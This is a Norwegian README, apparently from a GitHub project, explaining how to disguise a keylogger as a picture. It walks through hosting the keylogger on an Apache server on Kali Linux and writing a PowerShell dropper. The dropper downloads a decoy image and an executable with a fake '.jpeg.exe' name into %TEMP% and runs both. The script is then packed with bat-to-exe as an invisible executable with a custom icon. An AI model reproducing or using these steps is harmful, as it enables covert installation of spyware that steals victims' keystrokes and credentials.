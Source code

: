 # PremKeylogger-ferdig

Verktøy:
-Hyper-V manager
-Winscp
-Kali linux
-bat to exe converter
-2 bilder
-1 ICO (ikon)

--------------------------------------------------------------------------------------------------------------------------------------------|

Koden ble skrevet i Visual studio, hvordan du implenterer koden i et "bilde" er gjort i Kali Linux.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å få "injecte" keyloggeren inn i et "bilde" må du lage apache2 web server for å lagre din keylogger inni den.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å gjøre det trenger du Kali linux. Det er for å sette opp en Apache web server. Du må også overføre din keylogger
til din Kali linux. Du trenger "Winscp" for å gjøre dette.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å sjekke at din Apache2 web server er oppe kan du skrive inn din kali linux sin ip adresse, kommando for å få ip adresse: "ip a".
Når du har Ip adressen skriver du inn i google chrome "http://DIN IP ADRESSE"

--------------------------------------------------------------------------------------------------------------------------------------------|

For å legge keylogger filen inn på din apache2 web server går du inn på kali linux:
-> "Open folder", øverst til venstre -> finn keyloggeren -> høyreklikk -> cut -> file system - Var -> www -> html -> høyreklikk -> paste.

--------------------------------------------------------------------------------------------------------------------------------------------|

Finn et passende bilde som har en URl som slutter på .png, .jpg eller .jpeg som for eksempel:
https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg
Så trenger vi URL til keyloggeren, du finner dette ved å gå inn på din Apache2 webs server, høyreklikke på filen -> Copy

--------------------------------------------------------------------------------------------------------------------------------------------|
Deretter gå inn på powershell på din vanlige pc. NB! gjør dette på notepad først. 
Skriv inn:
cd %TEMP%
Invoke-webRequest 'bilde URL' -OutFile passende navn.jpg
passende navn.png
Invoke-webRequest 'fil IRL' -OutFIle passende navn.exe (eller .bat)

--------------------------------------------------------------------------------------------------------------------------------------------|

Det kan se sånn ut:

cd %TEMP%
Invoke-webRequest 'https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg' -OutFile By.jpg
By.jpg
Invoke-webRequest 'http://192.168.50.221/S%c3%b8tHund.jpeg.exe' -OutFile SøtHund.jpeg.exe
SutHund.jpeg.exe

--------------------------------------------------------------------------------------------------------------------------------------------|

Lagre notepad filen der du kan finne den. Filtypen skal være "all files". Gi filen et passende navn som slutter på .exe. feks "SøtHunnd.exe".

--------------------------------------------------------------------------------------------------------------------------------------------|

Copy paste teksten på powershell, start den. Nå har vi en fil som gjør at hvis brukeren trykker på filen starter den programmet, ved at den installerer
et bilde, og hviser den. For å gi den et ikon trenger vi bat to exe converter. 
Dra filen inn på bat to exe converter -> Icon -> trykk på de 3 prikkene -> finn Ico filen -> exe format 32 bit | Windows (Invisible) -> Convert ->
navngi den et passende navn -> save

--------------------------------------------------------------------------------------------------------------------------------------------|

